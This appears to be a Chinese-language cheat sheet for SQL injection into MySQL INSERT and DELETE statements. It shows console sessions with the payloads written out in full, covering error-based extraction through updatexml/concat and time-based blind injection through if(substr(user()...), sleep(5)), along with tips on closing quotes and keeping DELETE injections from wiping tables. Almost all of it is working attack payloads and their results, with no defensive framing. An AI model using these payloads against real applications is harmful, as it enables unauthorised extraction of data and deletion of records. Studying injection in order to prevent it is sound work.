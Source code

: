 

### 报错

```

mysql> insert into admin (id,username,password) values (2,"or updatexml(1,concat(0x7e,(version())),0) or","admin");
Query OK, 1 row affected (0.00 sec)

mysql> select * from admin;
+------+-----------------------------------------------+----------+
| id   | username                                      | password |
+------+-----------------------------------------------+----------+
|    1 | admin                                         | admin    |
|    1 | and 1=1                                       | admin    |
|    2 | or updatexml(1,concat(0x7e,(version())),0) or | admin    |
+------+-----------------------------------------------+----------+
3 rows in set (0.00 sec)

mysql> insert into admin (id,username,password) values (2,""or updatexml(1,concat(0x7e,(version())),0) or"","admin");
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'

#delete 注入很危险，很危险，很危险，切记不能使用 or 1=1 ，or 右边一定要为false
mysql> delete from admin where id =-2 or updatexml(1,concat(0x7e,(version())),0);
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'
```



### 盲注

```
#int型 可以使用 运算符 比如 加减乘除 and or 异或 移位等等
mysql> insert into admin values (2+if((substr((select user()),1,1)='r'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (5.00 sec)

mysql> insert into admin values (2+if((substr((select user()),1,1)='p'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (0.00 sec)

#字符型注意闭合不能使用and
mysql> insert into admin values (2,''+if((substr((select user()),1,1)='p'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (0.00 sec)

mysql> insert into admin values (2,''+if((substr((select user()),1,1)='r'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (5.01 sec)

# delete 函数 or 右边一定要为 false
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r4'),sleep(5),0);
Query OK, 0 rows affected (0.00 sec)

mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r'),sleep(5),0);
Query OK, 0 rows affected (5.00 sec)

#update 更新数据内容
mysql> select * from admin;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | admin    | admin    |
+------+----------+----------+
4 rows in set (0.00 sec)
```